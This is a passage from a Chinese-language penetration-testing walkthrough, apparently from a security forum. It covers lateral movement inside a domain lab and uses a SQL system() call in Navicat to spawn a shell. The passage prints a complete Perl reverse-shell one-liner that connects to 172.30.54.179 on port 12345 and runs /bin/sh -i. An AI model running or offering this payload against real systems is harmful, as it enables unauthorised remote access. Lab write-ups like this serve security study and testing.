 所以我们这里调用相关命令

[![](assets/1706771111-17e2a47ce788f432b1078004dc725e32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129174209-abe44d98-be8a-1.png)

接下来借助命令执行实现反弹shell

### 反弹Shell

这里反弹到我们的域用户二上，因为他和域用户三是在同一网段下的，我们先监听下它的某个端口。

然后在Navicat上执行指令如下

```plain
select system('perl -e \'use Socket;$i="172.30.54.179";$p=12345;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'');
```

[![](assets/1706771111-1fff52b74c0e34a75aed1dea5a116042.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129174217-b0a91c5a-be8a-1.png)
